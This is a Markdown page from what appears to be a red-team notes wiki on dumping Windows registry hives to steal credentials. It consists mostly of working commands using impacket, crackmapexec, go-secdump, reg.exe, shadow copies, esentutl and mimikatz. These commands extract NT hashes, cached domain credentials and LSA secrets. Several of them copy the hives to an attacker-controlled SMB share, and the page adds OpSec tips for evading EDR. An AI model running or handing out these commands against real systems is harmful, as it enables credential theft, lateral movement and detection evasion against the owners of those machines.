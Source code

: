 ```yaml
---
title: Registry Dump
---
```


[[notes/mitre-attack/credential-access|Access Credentials]] from the Windows [[notes/windows/registry]] as [[notes/windows/credential-access-admin|local admin]].
The *Security Account Manager* stores NT hashes of local users in the `SAM` registry hive.
The *Local Security Authority* stores Domain Cached Credentials (DDC) of the last ten user logons as well as plain text passwords or NT hashes of local and domain service accounts in the `SECURITY` hive.

DCC hashes are hard to crack, but you can try with a small wordlist.
See [[notes/cryptography/hash-cracking]] for details.

# Dump from Linux

Connect to the *Remote Registry* service over SMB and save the hives to a SMB share.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-reg -k -no-pass srv01.corp.local save -keyName 'HKLM\SAM' -o '\\attacker.corp.local\share'
    impacket-reg -k -no-pass srv01.corp.local save -keyName 'HKLM\SYSTEM' -o '\\attacker.corp.local\share'
    impacket-reg -k -no-pass srv01.corp.local save -keyName 'HKLM\SECURITY' -o '\\attacker.corp.local\share'
    ~~~

Connect to the *Remote Registry* service, read the boot key from the `SYSTEM` hive, save the `SAM` and `SECURITY` hives to disk and download them via SMB.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-secretsdump administrator:'passw0rd'@srv01.corp.local
    ~~~

=== "[[notes/tools/crackmapexec]]"
    ~~~ bash
    crackmapexec smb srv01.corp.local --local-auth -u administrator -p 'passw0rd' --sam --lsa
    ~~~

Connect to *Remote Registry* and dump the registry hives without touching disk by temporally relaxing ACLs.

=== "[[notes/tools/go-secdump]]"
    ~~~ bash
    go-secdump -host srv01.corp.local -local -user administrator -pass 'passw0rd'
    ~~~

> **OpSec:**
>
> Some EDRs detect Impacket and CME because they access the `ADMIN$` share and write the dumps to `C:\Windows\Temp\*.tmp` ([source](http://web.archive.org/web/20230719134515/https://www.login-securite.com/2023/07/13/dpapi-dont-put-administration-passwords-in/)).
>
> A few EDRs detect remote access to `SAM` even without this indicators.
> In this case you can try to run any of the Windows builtins remotely instead of relying on the *Remote Registry*.

Dump the `SAM` hive trough local registry access to a SMB share.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-atexec -silentcommand administrator:'passw0rd'@srv01.corp.local 'reg.exe save hklm\sam \\attacker.corp.local\share\%COMPUTERNAME%-sam.save'
    ~~~

# Extract on Linux

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-secretsdump -sam ./sam.save -security ./security.save -system ./system.save LOCAL
    ~~~

=== "[[notes/tools/pypykatz]]"
    ~~~ bash
    pypykatz registry --sam ./sam.save --security ./security.save --system ./system.save
    ~~~

# Dump on Windows

Save registry hives directly to a SMB share.

=== "reg.exe"
    ~~~ bat
    reg.exe save hklm\sam \\attacker.corp.local\share\%COMPUTERNAME%-sam.save
    reg.exe save hklm\security \\attacker.corp.local\share\%COMPUTERNAME%-security.save
    reg.exe save hklm\system \\attacker.corp.local\share\%COMPUTERNAME%-system.save
    ~~~

Copy registry hives from a [[notes/windows/shadow-copy]] to a SMB share.

=== "cmd.exe"
    ~~~ bat
    vssadmin.exe list shadows
    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam \\attacker.corp.local\share\%COMPUTERNAME%-sam.save
    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\security \\attacker.corp.local\share\%COMPUTERNAME%-security.save
    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system \\attacker.corp.local\share\%COMPUTERNAME%-system.save
    ~~~

=== "esentutl.exe"
    ~~~ bat
    esentutl.exe /y /vss C:\Windows\System32\config\sam /d \\attacker.corp.local\share\%COMPUTERNAME%-sam.save
    esentutl.exe /y /vss C:\Windows\System32\config\security /d \\attacker.corp.local\share\%COMPUTERNAME%-security.save
    esentutl.exe /y /vss C:\Windows\System32\config\system /d \\attacker.corp.local\share\%COMPUTERNAME%-system.save
    ~~~

Parse hives in memory without touching disk.

=== "[[notes/tools/mimikatz]]"
    ~~~
    mimikatz.exe token::elevate lsadump::sam lsadump::secrets exit
    ~~~

Untested tools:

- [RegSave](https://github.com/EncodeGroup/RegSave)
